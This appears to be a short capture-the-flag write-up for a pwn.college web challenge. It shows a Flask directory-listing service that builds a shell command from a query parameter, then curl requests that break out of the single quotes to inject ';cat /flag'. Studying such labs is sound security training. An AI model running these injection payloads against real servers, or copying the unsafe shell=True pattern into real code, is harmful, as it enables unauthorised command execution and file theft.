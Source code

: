 This one has a command that's enclosed by a pair of `'` characters.

```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET"])
def challenge():
    directory = flask.request.args.get("directory", "/challenge")
    command = f"ls -l '{directory}'"
    print(f"DEBUG: {command=}")

    listing = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form><input type=text name=directory><input type=submit value=Submit></form>
        <hr>
        <b>Output of: ls -l '{directory}'</b><br>
        <pre>{listing}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

So all we need to do is to break out of that ending `'` to inject our commands. We can do this by inserting some quotes to create another pair of quotes, letting us insert our commands in between the 2 pairs of quotes:

```bash
curl -v "http://challenge.localhost:80/?directory=/''"
```

This works with no errors. So we can now inject our command in to this:

```bash
curl -v "http://challenge.localhost:80/?directory=/'%3bcat%20/flag'"
```